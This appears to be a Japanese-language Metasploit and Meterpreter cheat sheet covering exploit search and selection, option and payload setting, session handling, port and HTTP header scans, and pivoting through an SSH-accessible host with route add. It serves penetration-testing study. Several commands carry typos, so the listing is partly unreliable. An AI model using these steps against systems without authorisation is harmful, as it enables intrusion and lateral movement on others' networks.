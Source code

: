 # Metasploit

## metasploit

- 起動

``` shell
metasploit
```

- バナーなし

``` shell
metasploit -q
```

- ファイルを読み込んで起動

``` shell
metasploit -r <.rcファイルのパス>
```

- ヘルプ

``` shell
help
```

- エクスプロイトの一覧

```shell
show exploit
```

- searchのヘルプ

``` shell
help search
```

- キーワード検索

``` shell
search <key word>
```

- ランク付き検索

``` shell
search <key word> rank:Excellent
```

- タイプ指定検索

``` shell
search type:exploit <keyword>
```

- エクスプロイトの指定

``` shell
use <exploit number / exploit_path>
```

- エクスプロイトの情報
  
``` shell
info <exploit_path>
```

- エクスプロイトの情報(エクスプロイト指定後)

``` shell
info
```

- オプション表示

``` shell
options
```

- オプション設定

``` shell
set <opyion> <value>
```

- 実行 違いはない

``` shell
exploit / run
```

- ペイロードの確認

``` shell
set payload
```

> msfconsoleから直接OSのコマンドも実行できる

## meterpreter

- セッションのバックグラウンド

``` shell
    background
```

- セッション一覧

``` shell
    sessions
```

- セッションをフォアグラウンドで実行

``` shell
    sessions -i <session ID>
```

- ファイルダウンロード

``` shell
    download
```

- ポートスキャン

``` shell
    use auxiliary/scanner/portscan/tcp
    #オプション設定
    set RHOSTS <target_ip_range> # XX.XX.XX.X-ZZ
    #this example is web port scan 
    set PORTS 80,443,8000,8080
    #実行
    run
```

- httpヘッダーの取得

``` shell
    #header情報
    use auxiliary/scanner/http/http_header
    #オプション設定
    set RHOST <target_ip>
    #実行
    run
```

## metasploitを使用したpivoting

- 前提条件
  - 踏み台にssh接続できること

``` shell
    # 起動
    msfconsole -q
    # 検索
    search sshexec
    # option設定
    use exploit/multi/ssh/sshexec
    set RHOSTS <pivot_ip_address>
    set USERNAME <pivot user_name>
    set PASSWORD <pivot_password>
    set LHOST <kali_port>
    # 実行
    eploit

    #meterpreterで実行
    #shellの実行
    shell
    #ネットワーク情報表示
    ifconfig
    #shellの終了
    exit
    #セッションをバックグラウンドに落とす
    background

    #metasploit
    #セッションの確認
    session
    #ルートの追加
    route add <target_ip_address> <target_subnet> <ssh_session_number>
    #ルートの確認
    route

```
